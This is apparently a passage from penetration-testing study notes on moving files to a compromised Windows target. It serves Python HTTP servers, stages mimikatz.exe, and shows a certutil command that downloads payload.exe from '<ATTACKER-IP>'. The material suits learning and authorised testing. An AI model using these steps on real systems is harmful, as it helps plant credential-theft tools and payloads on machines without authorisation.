 * [**`SimpleHTTPServer`**](https://docs.python.org/2.7/library/simplehttpserver.html#module-SimpleHTTPServer) - `python2` module

```bash
# If Python version returned is 2.X
python -m SimpleHTTPServer <PORT_NUMBER>
```

* [**`http.server`**](https://docs.python.org/3/library/http.server.html) - `python3` module

```bash
# If Python version is 3.X
python3 -m http.server <PORT>
```

```bash
# On Windows, try 
python -m http.server <PORT>
py -3 -m http.server <PORT>
```

**`e.g.`**

* Copy a file into the current directory and setup the web server to download the file into the target system

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .

# Python 2.7
python -m SimpleHTTPServer 80

# Python 3.7
python3 -m http.server 80
```

* Files can be downloaded from a browser or using a `GET` request

![](.gitbook/assets/image-20230428215801961.png)

### Transferring Files

#### Windows

* Set up a web server to host the `payload.exe` file

```bash
# Attacker machine
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80
```

* After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

```bash
# Windows Target machine
cd C:\Temp
certutil -urlcache -f http://<ATTACKER-IP>/payload.exe payload.exe
```
